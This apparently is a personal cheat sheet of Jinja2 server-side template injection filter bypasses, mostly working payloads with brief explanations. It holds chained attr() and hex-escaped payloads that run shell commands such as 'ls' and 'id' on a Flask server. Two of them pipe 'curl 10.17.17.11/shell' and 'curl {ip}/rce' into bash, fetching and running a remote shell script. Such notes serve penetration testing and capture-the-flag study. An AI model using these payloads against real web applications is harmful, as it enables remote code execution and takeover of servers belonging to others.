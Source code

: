 # filter bypass
[https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) 

[https://0day.work/jinja2-template-injection-filter-bypasses/](https://0day.work/jinja2-template-injection-filter-bypasses/) 

[https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) 

`.` are filtered, so we replace them with the attr functions, 

for replacing `_` we use `\x5f` but \\ is also filtered so we use `%5c`, we also needed to remove the `[]` which were replaced with the attr function and pipes

```text-plain
{{()|attr('%5cx5f%5cx5fclass%5cx5f%5cx5f')|attr('%5cx5f%5cx5fbase%5cx5f%5cx5f')|attr('%5cx5f%5cx5fsubclasses%5cx5f%5cx5f')()}}
```

working payload:

```text-plain
{{()|attr('%5cx5f%5cx5fclass%5cx5f%5cx5f')|attr('%5cx5f%5cx5fbase%5cx5f%5cx5f')|attr('%5cx5f%5cx5fsubclasses%5cx5f%5cx5f')()|attr('%5cx5f%5cx5fgetitem%5cx5f%5cx5f')(401)("ls",shell=True,stdout=-1)|attr('communicate')()|attr('%5cx5f%5cx5fgetitem%5cx5f%5cx5f')(0)|attr('decode')('utf-8')}}
```

The payload leverages the fact that Flask/Jinja2 templates have the `request` object available to them.

Leveraging the same tricks, the following payload would execute `id` using Python’s `os.popen()`:

```text-plain
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

In regular Python, we are just doing the following:

```text-plain
import os
os.popen('id')
```

```text-plain
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.17.17.11/shell | bash")|attr("read")()}}
```

The `|` indicates to Jija2 that we are applying a filter. The `attr()` filter “get\[s\] an attribute of an object”. As per the documentation, “`foo|attr("bar")` works like `foo.bar`.” `\x5f` is simply the hex representation of `_`.

If single quote is filtered

```text-plain
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl {ip}/rce | bash")|attr("read")()}}
```